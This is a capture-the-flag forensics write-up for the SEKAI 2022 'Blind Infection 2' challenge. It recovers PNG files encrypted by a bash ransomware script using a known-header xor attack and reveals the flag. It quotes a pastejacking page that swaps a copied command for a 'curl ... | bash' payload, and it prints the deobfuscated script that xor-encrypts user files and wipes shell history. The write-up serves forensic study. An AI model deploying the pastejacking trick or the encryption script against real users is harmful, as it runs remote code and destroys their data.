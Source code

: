 ```yaml
---
layout: post
title: "SEKAI 2022 - Blind Infection 2"
mathjax: true

date: 2022-10-01
---
```


*A ransomware encrypted PNG files, we retrieve the initial infection program, and use a xor attack to recover the flag.*

<!--more-->

### Description

*Consider using a fresh virtual machine for this challenge, as you may risk losing your data. We are not responsible for any damages caused.*

Investigator: Good news - we’ve successfully managed to restore your documents! However, to continue with the rest of the files, we'll probably need to know: what were you doing when this initially happened?

Customer: ...

Attachment md5sum: 60937547d80207b1b4f2d4174a8d719a

Author: BattleMonger

### Details

Points:      488

Category:    forensic

Validations: 15

First blood: Yes

### Solution

After digging around the file and folder it stand out that the juicy stuf  resides inside the `/home/sekaictf/Pcitures` folder where 4 interesting PNG files are encrypted.

Inside the description, the investigator ask for an open question about when it happend.
Using the `tree -a` command, a folder called `snap/firefox` has been found inside the home user folder.
Inside this directory the profile of the customer can be found `common/.mozilla/firefox/p3zapakd.default`. To analyze quickly the firefox profile, the [firefed](https://github.com/numirias/firefed) tool has been used.

Using the `history` command again, we saw that the customer has made some research on how to decrypt file, is antivirus needed etc. So we can be sure that the infection occurs before those search.


```bash
> $ firefed -f -p home/sekaictf/snap/firefox/common/.mozilla/firefox/p3zapakd.default/ history
https://sekaictf-tunes.netlify.app/
    Title:      None
    Last visit: 2022-07-26 14:23:53
    Visits:     1
...
```
an url containing sekaict stoud out. Using curl to get what is inside the link lead to the discover of an interesting attack vector, using `clipboardData` function as shown below:

```html
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8"></head><body>
		<!-- Source - https://security.love/Pastejacking/ -->
        Download exclusive Sekai Music!!!
        <br>

        <p>wget sekairhythms.com/epicmusic.zip</p>
        <script>
            document.addEventListener('copy', function(e){
                console.log(e);
                e.clipboardData.setData('text/plain', 'curl https://storage.googleapis.com/sekaictf/Forensics/muhahaha.sh | bash');
                e.preventDefault();
            });
        </script>
    


</body></html>
```

The malicious command download and run a bash script called [muhahaha.sh](/resources/2022/sekai/blind_infection_2/muhahaha.sh)

The shell script is obfuscated, to be able to decode it, we replaced the `eval` function with `echo` and the script became much more readable:

```bash
echo '---------------------------------------------------------'
echo 'All your files are gone, permanently!!!'
echo 'Bring them back, We dare you!!!'
echo '---------------------------------------------------------'
wget -q https://raw.githubusercontent.com/scangeo/xor-files/master/binaries/x86_64/xor-files
for file in ~/Documents/* ~/Pictures/*
do
openssl rand 16 > key.txt
xor-files -r $file $file key.txt
rm key.txt
done
rm xor-files
echo '' > ~/.bash_history
```
Basically what it does is that for each file in Documents and Pictures folder, it generate a random key of 16 bytes and xor the file with it, then it remove the temporary key.

As we know that PNG has a fixed header of always the same 16 bytes, it is trivial do decrypt the PNG's files with a bunch of python and the xor-files tool.

First get the xor key:

```python
import sys
key = bytes.fromhex("89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52".replace(" ",""))

with open(sys.argv[1],"rb") as src:
    buf = src.read(16)

good_key = bytearray()
for i,j in enumerate(buf):
    good_key.append((j ^ key[i]))

print(f"{good_key}")
print(len(good_key))

with open("key.good","wb") as dst:
    dst.write(good_key)
```

Then use this key to decrypt our file:

```bash
./xor-files -r flag.png flag.png key.good
```

The PNG is a big list of country flags, as we are on a forensic task, let's run `strings` on it just in case:

```bash
$ strings flag_back.png
...
F R3
f$]JSL
84#y
nl6F
IEND
SEKAI{D4R3_4CC3PT38_4N8_4U5T38}
```

Our flag is there: SEKAI{D4R3_4CC3PT38_4N8_4U5T38}

Challenges resources are available in the [resources folder](https://github.com/duksctf/duksctf.github.io/tree/master/resources/2022/sekai/blind_infection_2)

